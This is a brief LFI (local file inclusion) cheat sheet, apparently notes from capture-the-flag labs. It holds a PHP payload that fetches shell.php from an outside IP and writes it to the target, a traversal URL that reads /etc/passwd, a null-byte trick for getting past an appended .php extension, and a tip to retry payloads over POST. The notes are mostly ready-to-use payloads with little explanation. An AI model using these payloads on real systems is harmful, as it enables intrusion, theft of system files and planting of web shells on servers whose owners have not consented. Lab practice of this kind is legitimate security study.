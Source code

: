# LFI
[https://daniel.haxx.se/blog/2020/07/29/curl-ootw-path-as-is/](https://daniel.haxx.se/blog/2020/07/29/curl-ootw-path-as-is/) 

use `curl --path-as-is` for `../../`  

```text-plain
<?php file_put_contents('shell.php',file_get_contents('http://10.17.17.11/shell.php')) ?>
<?php file_get_contents('index.php')?>
```

[http://webapp.thm/get.php?file=../../../../etc/passwd](http://webapp.thm/get.php?file=../../../../etc/passwd)

file\_get\_contents  in PHP allows LFI. also includes function

If server adds a .php extension at the end of file use %00(null byte) to escape the .php extension

../../../../etc/flag2%00 

try changing request type from get to post to see if it accepts payload